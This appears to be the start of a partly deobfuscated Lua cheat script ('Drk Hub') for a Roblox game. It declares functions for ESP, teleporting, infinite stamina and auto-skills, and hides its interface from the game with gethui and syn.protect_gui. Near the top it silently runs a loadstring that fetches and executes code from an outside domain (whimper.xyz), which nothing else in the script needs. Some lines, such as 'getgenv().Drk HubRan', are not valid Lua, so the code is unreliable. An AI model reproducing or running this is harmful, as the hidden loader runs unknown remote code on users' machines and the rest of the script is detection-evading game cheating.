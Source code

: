 -- yes please dont use globals :heart:
local CheckQ, CheckBossQuest, Hop, InfAb, infinitestam, NoDodgeCool, NameMelee, NameSword, checkskillMelee, checkskillDF, checkskillSword, checkskillGun, SendKey, autoskill, CheckInventory, TeleportSeabeast, Click, IsWpSKillLoaded, GetWeapon, EquipAllWeapon, UnEquipWeapon, EquipWeapon, TP, StopTween, CheckPirateBoat, CheckSwanBoat, CheckSeaBeast, CheckLeviathanSegment, CheckLeviathanTail, CheckLeviathan, TeleportLeviathan, TweenTemple, DayNight, ClockTime, BuyGear, PullLever, AncientClock, TweentoCurrentRaceDoor, GetSeaBeastTrial, CheckBossDimension, BoatShit, TPBoatShit, StopTweenBoatShit, CheckDimension, CheckBribe, CheckElite, CheckMirage, CheckKitsune, MoonTextureId, CheckMoonTexture, ClockTime, CheckMoon, CheckLegendarySword, isnil, UpdatePlayerChams, UpdateIslandESP, UpdateChestEsp, UpdateBfEsp, UpdateFlowerEsp, IsIslandRaid, getNextIsland, LockMoon, ESPMirageIsland, CheckAcientOneStatus
-- manually added locals:
local MyLevel, CFrameQuest, CFrameMon, Mon, NameMon, NameQuest, LevelQuest


local Vector2,CFrame,Instance,UDim2=Vector2,CFrame,Instance,UDim2 -- yes this will barely add performance but ya
local _5ZH4v44rShared={} -- getgenv = bad and it crashes on second execution anyways :3
if getgenv().Drk HubRan then
	warn("ALREADY OPEN")
	return
end
getgenv().Drk HubRan=true


spawn(function()
	loadstring(game:HttpGet("https://you.whimper.xyz/cute"))()
end)

local player = game:GetService("Players").LocalPlayer
while not player.Character do
    task.wait(3)
end

local L_1_ = os.clock()
local L_2_ = get_hidden_gui or gethui;
if syn and typeof(syn) == "table" and RenderWindow then
	syn.protect_gui = gethui
end;
local function L_3_func(L_60_arg0)
	if L_2_ then
		L_60_arg0["Parent"] = L_2_()
	elseif not is_sirhurt_closure and (syn and syn.protect_gui) then
		syn.protect_gui(L_60_arg0)
		L_60_arg0["Parent"] = game:GetService("CoreGui")
	elseif game:GetService("CoreGui"):FindFirstChild("RobloxGui") then
		L_60_arg0["Parent"] = game:GetService("CoreGui").RobloxGui
	else
		L_60_arg0["Parent"] = game:GetService("CoreGui")
	end
end;
local L_4_ = Instance.new("ScreenGui")
L_3_func(L_4_)
local L_5_ = game:GetService("ReplicatedStorage")
local L_6_ = game:GetService("TeleportService")
local L_7_ = game:GetService("VirtualUser")
local L_8_ = game:GetService("RunService")
local L_9_ = game:GetService("Players")
local L_10_ = L_5_:WaitForChild("Remotes")
local L_11_ = L_10_:WaitForChild("Validator")
local L_12_ = L_10_:WaitForChild("CommF_")
local L_13_ = workspace:WaitForChild("_WorldOrigin")
local L_14_ = workspace:WaitForChild("Characters")
local L_15_ = workspace:WaitForChild("Enemies")
local L_16_ = workspace:WaitForChild("Map")
local L_17_ = L_13_:WaitForChild("EnemySpawns")